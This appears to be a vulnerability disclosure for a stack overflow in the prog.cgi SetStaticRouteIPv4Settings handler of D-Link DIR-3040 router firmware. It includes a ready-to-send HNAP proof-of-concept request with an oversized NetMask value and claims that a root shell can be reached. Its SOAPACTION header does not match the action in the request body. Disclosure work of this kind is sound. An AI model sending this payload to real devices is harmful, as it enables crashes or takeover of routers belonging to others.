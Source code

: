 # D-link DIR3040_A1_FW120B03.bin Overflow vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


DIR-3040 prog.cgi  Keyword api  SetStaticRouteIPv4Settings.Overflow vulnerability exists


## Vulnerability details

IVar3 parameter obtains NetMask value

![](../img/Snipaste_2022-10-19_14-45-46.png)



Function FUN_ 0049ac18(), call parameter iVar3

![](../img/Snipaste_2022-10-19_14-55-16.png)



The function directly copies the value of iVar3 to local_ 5c, and the length is not verified, which is prone to overflow vulnerability.

![](../img/Snipaste_2022-10-19_16-07-51.png)



## POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetStaticRouteIPv4Settings>
			<StaticRouteIPv4Data>
				<SRIPv4Info>
				<Enabled>true</Enabled>
				<Name></Name>
				<IPAddress>192.168.0.1</IPAddress>
				<NetMask>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
          aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</NetMask>
				<Gateway>192.168.0.254</Gateway>
				<Metric></Metric>
				<Interface></Interface>
				</SRIPv4Info>
			</StaticRouteIPv4Data>
		</SetStaticRouteIPv4Settings>
	</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

